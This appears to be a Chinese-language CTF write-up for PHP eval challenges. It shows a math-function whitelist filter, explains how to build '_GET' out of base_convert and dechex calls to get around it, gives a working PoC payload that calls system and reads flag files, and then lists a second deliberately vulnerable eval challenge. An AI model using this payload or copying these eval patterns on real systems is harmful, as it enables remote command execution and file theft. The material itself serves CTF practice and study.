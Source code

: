 ```php
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```

```php
这题只能使用一些数学函数，字符白名单如下：
abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789$+-}{_><:?*.~/\空格
对于括号类的字符：
圆括号和方括号都是能用花括号直接替换的

_GET的构造：
因为这里很多数学函数都没有被禁，所以肯定是从这个入手的
base_convert('hex2bin', 36, 10);
即将hex2bin这个字符串从36进制转换成10进制，结果：37907361743
hexdec(bin2hex("_GET"));
即将_GET这个字符串转换成16进制后再转换成10进制，结果：1598506324
最后_GET的整体构造为：
base_convert('37907361743',10,36)(dechex('1598506324'));
POC:
c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));$$pi{abs}($$pi{acos})&abs=system&acos=cat f*

```



# 每周大挑战

## RCE1

```php
<?php

error_reporting(0);
highlight_file(__FILE__);

$code = $_POST['code'];

$code = str_replace("(","括号",$code);

$code = str_replace(".","点",$code);

eval($code);

?>
```
